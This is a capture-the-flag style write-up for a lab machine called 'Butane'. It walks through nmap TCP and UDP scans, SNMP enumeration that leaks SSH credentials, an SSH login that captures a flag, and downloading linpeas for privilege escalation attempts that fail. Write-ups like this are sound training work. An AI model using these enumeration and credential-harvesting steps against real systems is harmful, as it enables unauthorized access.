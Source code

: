 ```yaml
---
date:
  created: 2023-12-19
  updated: 2023-12-20
description: Butane Writeup
tags:
  - udp
  - snmpwalk
  - linpeas
  - lse
comments: true
---
```


# Butane

Here is a challenge on Butane, Boot2Root machine.

## Reconnaissance

`IP = 192.168.8.131`

First and foremost, doing nmap scan to gather information of the machine. We get this

```js
┌──(root㉿kali)-[/home/kali/Desktop/internship/butane]
└─# nmap -p- --min-rate 10000 192.168.8.131 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-27 03:36 EDT
Nmap scan report for butane.netbytesec.com (192.168.8.131)
Host is up (0.0011s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

There is only one service running. I thought that the machine is not running correctly haha. So just relax... 

After a while, there is a hint said that "Why not trying the UDP". So bump into nmap UDP scan. It took some time, so we give `-vv` to make it more aggressive. 

```js
┌──(root㉿kali)-[/home/kali/Desktop/internship/butane]
└─# nmap -sU -T4 -vv 192.168.8.131
```

Output

```js
Scanned at 2023-10-27 00:17:08 EDT for 1579s
Not shown: 999 open|filtered udp ports (no-response)
PORT    STATE SERVICE REASON
161/udp open  snmp    udp-response ttl 128

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1578.88 seconds
           Raw packets sent: 2279 (106.097KB) | Rcvd: 2 (181B)
```

## Enumeration

It is snmp service running on this machine. So we go thru the SNMP hacktricks [https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp)

```js
┌──(root㉿kali)-[/home/kali/Desktop/internship/butane]
└─# snmpwalk -v 2c -c public 192.168.8.131 .1 > output.txt
```

We will be using this command to enumerate and get the machine information. We get this and there is credentials of `mike:P@55w0Rd` to log in into the SSH and the first flag.

![](/images/writeup/internship/butane/cred.PNG)

## Exploitation

We go into the SSH. Directly we got the second flag

```js
┌──(root㉿kali)-[/home/kali/Desktop/internship/butane]
└─# ssh mike@192.168.8.131                
mike@192.168.8.131's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

279 packages can be updated.
197 updates are security updates.

New release '18.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Last login: Fri Oct 27 12:46:19 2023 from 192.168.22.12
mike@butane:~$ ls
flag2.txt
mike@butane:~$ cat flag2.txt
flag{37503d2ac009c25f88f86a4961be83d0944afcd6}
```


### Privesc

To get the root I try to look on the `linpeas` and directly install into the machine because there is `wget`

```js
mike@butane:/tmp$ wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

After a few testing of privesc OS and Linux kernel. It was mission failed because there is no `gcc` install

```js
                              ╔════════════════════╗
══════════════════════════════╣ System Information ╠══════════════════════════════
                              ╚════════════════════╝
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017
Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.2 LTS
Release:	16.04
Codename:	xenial

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.16
```

After trying some exploit on the public, we cannot get thru anything


